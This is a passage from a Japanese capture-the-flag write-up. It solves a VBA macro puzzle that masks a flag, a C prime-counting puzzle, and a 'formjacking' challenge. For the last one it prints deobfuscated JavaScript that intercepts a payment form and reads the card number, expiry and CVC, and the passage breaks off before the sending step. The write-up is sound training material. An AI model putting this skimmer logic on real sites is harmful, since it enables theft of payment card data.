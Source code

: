 ```
Range("AM4:AR4").Interior.Color = RGB(255, 255, 255)
Range("R2:AR2").Interior.Color = RGB(0, 0, 0)
Range("R4:AR4").Interior.Color = RGB(0, 0, 0)
Range("R2:AR2").Interior.Color = RGB(255, 255, 255)
Range("R4:AR4").Interior.Color = RGB(255, 255, 255)
End Sub
```
すると特定のセルを塗りつぶしていることが分かります。
これを最後まで実行してしまうとフラグの内容が伏字になった状態で終わってしまうので
1ステップずつ実行して、途中でフラグの内容が出てこないか確認します。
するとマクロの中盤あたりで伏字にされるまえのフラグの状態を確認することができました。
```
flag{268653}
```

### 暗算でもできるけど？

下記のコードの出力結果の68番目の値と314番目の値とを加算した値を求める問題です。
```c
#include <stdio.h>
int main(){
    int loopc = 0;
    // int i,j,k,l;k=(((10/2*4/10*4/2)+97)*10)-10;
    int i,j,k,l;k=3000;
    printf("init k: %d\n", k);
    for(i=2;i<=k;++i){
        l=0;
        for(j=2;j<i;++j){
            if(i%j==0){
                l=1;
                break;
            }
        }
        if(l==0) {
            loopc++;
            printf("%d: %d\r\n",loopc,i);
        }
    }
    return 0;
}
```
このコードはforループでiが1000まで続いていて、314番目の結果まで出力してくれる長さではありません。
そこで終了条件のkを3000に増やして、iが3000まで続くようにして値を求めます。
```
flag{2420}
```

### formjacking

難読化されたJSの解読問題です。
最終的にそこで送信されているHTTPリクエストを特定する問題です。
難読化はこちらのサイトで解除しました。(https://trumanwl.com/ja/crypto/javascript-deobfuscator)
難読化を解除したコードがこちらです。
```javascript
document.querySelector("#card-expiry-element > form").addEventListener("submit", function (_0x2791c1) {
  _0x2791c1.preventDefault();
  const _0x5930f7 = "Skimming=true";
  const _0x9ae3dd = document.querySelector("input[name='cardnumber']").value;
  if (!_0x12237f(_0x9ae3dd)) {
    return false;
  }
  const _0x57060f = document.querySelector("input[name='exp-date']").value;
  const _0x33294f = document.querySelector("input[name='cvc']").value;
  function _0x3bb027() {
```